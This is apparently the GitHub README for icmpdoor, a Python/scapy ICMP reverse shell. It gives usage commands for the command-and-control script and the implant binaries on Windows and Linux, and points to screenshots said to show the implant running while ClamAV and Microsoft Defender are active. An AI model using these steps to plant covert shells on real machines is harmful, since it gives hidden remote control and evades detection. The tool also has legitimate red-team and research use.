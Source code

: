 # icmpdoor - ICMP Reverse Shell
icmpdoor is written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d DESTINATION_IP (Command and Control)
./icmpdoor -d DESTINATION_IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
